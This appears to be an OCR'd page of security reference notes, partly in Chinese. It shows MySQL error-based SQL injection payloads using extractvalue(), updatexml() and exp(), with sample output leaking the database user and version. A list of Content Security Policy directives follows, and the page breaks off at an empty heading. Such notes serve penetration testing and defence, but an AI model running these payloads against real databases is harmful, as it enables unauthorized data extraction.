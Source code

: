### extracvalue()

```
mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (extractvalue(1,concat(0x7e,(select version()),0x7e)));
1105 - XPATH syntax error: '~5.5.53~'
```

### updatexml()

```
mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1));
1105 - XPATH syntax error: '~root@localhost~'


mysql> select * from admin where id=1 and (updatexml(1,concat(0x7e,(select version()),0x7e),1));
1105 - XPATH syntax error: '~5.5.53~'
```

### exp()

```
mysql> select * from products where pid=1 and exp(~(select * from(select user())a));
1690 - DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'

mysql> select * from admin where id=1 and exp(~(select * from(select version())a));
1690 - DOUBLE value is out of range in 'exp(~((select `a`.`version()` from (select version() AS `version()`) `a`)))'
```

## 常用的 CSP 指令

* default-src
* script-src
* style-src
* img-src
* connect-src
* font-src
* object-src
* media-src
* frame-src
* report-uri
* sandbox
* child-src
* from-action
* frame-ancestors
* plugin-types

## 常用的 CSP 指令值
